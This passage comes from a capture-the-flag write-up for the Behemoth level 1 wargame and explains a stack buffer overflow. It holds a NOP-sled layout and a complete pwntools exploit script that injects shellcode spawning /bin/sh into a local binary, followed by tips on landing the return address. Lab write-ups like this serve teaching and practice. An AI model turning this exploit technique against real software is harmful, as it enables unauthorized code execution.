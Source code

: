 ```assembly
0: 0x90 ;	NOP
1: 0x90 ;	NOP
...
64-len(shellcode)-1: 0x90 ; NOP
64-len(shellcode):	 0x68 ;	start of shellcode
...
63: 0x80									; end of shellcode
```

Finally, the exploit script - I'll be using the [pwntools](https://docs.pwntools.com/en/stable/) package, which makes things such as formatting and IO much less of a hassle to deal with.

```python
from pwn import *

io = process("/behemoth/behemoth1")

shellcode = b''.join([b"\x68\x2f\x73\x68\x00", 
                    b"\x68\x2f\x62\x69\x6e",
                    b"\x89\xe3",
                    b"\x31\xc9",
                    b"\x31\xd2",
                    b"\xb8\x0b\x00\x00\x00",
                    b"\xcd\x80"])

debug_shellcode = b"\xCC"*4

#shellcode = debug_shellcode

buffer_len = 0x43
NOP = b'\x90'
padding = NOP*(buffer_len-len(shellcode))+shellcode
ebp = b"B"*4

stack_address = p32(0xffffd625+0x10) # pack the 32-bit number as a string in little endian format.

exploit = padding + ebp + stack_address
# print exploit
io.recv(timeout=0.1)

io.sendline(exploit)
io.interactive()
```

__Troubleshooting__ - even after doing all the steps, since we are dealing with a very small margin of error, the exploit might still not work. So how do we solve this?

1. please note the addition of +0x10 to make it more likely for us to land in the buffer.
2. debug with gdb again to make sure the value in eax hasn't changed (for instance because you have logged our from the server and reconnected)
3. If you want to debug your shellcode, you can replace the first byte with `\xCC` which is the opcode for a breakpoint interrupt.
4. it may also be useful to print the exploit into a file before running the pwntools utilities, to debug with gdb simply by typing `r < YourFileName`
5. Just keep playing around with the values, eventually you are going to hit the buffer and get code execution.
